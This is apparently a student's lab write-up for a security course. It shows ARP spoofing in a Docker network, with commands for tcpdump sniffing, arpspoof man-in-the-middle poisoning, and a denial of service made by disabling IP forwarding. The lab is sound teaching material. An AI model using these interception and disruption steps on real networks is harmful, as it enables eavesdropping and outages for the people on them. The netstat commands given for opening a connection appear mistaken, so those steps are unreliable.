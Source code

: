 # Lab 1 - ARP Spoofing

### Environment setup

Setup the controlled environment in which the attack will be simulated.

1. Cloning the git repo and entering the directory: 
    
    `git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)`
    
    `cd SRP-2021-22/arp-spoofing`
    
2. Starting docker containers:
    
    `./start.sh`
    
3. Enter docker container with an interactive terminal:
    
    `docker exec -it <container-name> bash`
    
4. Check if the network between containers is up
    
    `ping station-2` (from station-1)
    
5. Find IP and MAC addresses of each docker container:
    
    `ifconfig -a`
    
    **Station-1:**
    
    IP: `172.22.0.2`
    
    MAC: `02:42:ac:16:00:02`
    
    **Station-2:**
    
    IP: `172.22.0.4`
    
    MAC: `02:42:ac:16:00:04`
    
    **Evil-Station:**
    
    IP: `172.22.0.3`
    
    MAC: `02:42:ac:16:00:03`
    

### Emulating a 'real' situation

Emulation of a conversation between two computers, in our case containers on the same docker virtual network.

1. To open connection between **station-1** and **station-2**:
    
    On **station-2**: `netstat -l -p 8000`
    
    **station-2** behaves like a server listening for connections
    
    On **station-1**: `netstat station-2 8000`
    
    **station-1** behaves like a client requesting to connect to **station-2**
    

### Attack

In the controlled environment that was set up, emulate an attack.

1. Listen traffic on **eth0** (network on which all containers are connected on) on **evil-station**:
    
    `tcpdump`
    
2. Perform ARP spoofing:
    
    `arpspoof -t station-1 -r station-2`
    
3. To filter `tcpdump` output:
    
    `tcpdump -XA station-1 and not arp`
    
4. DOS between **station-1** and **station-2**:
    
    `echo 0 > /proc/sys/net/ipv4/ip_forward`
    
    Stop IP forwarding from **evil-station** to **station-2 →** results in messages not being forwared to **station-2,** also consequently TCP connection breaks down since **station-1** can't send ACK signal to **station-2**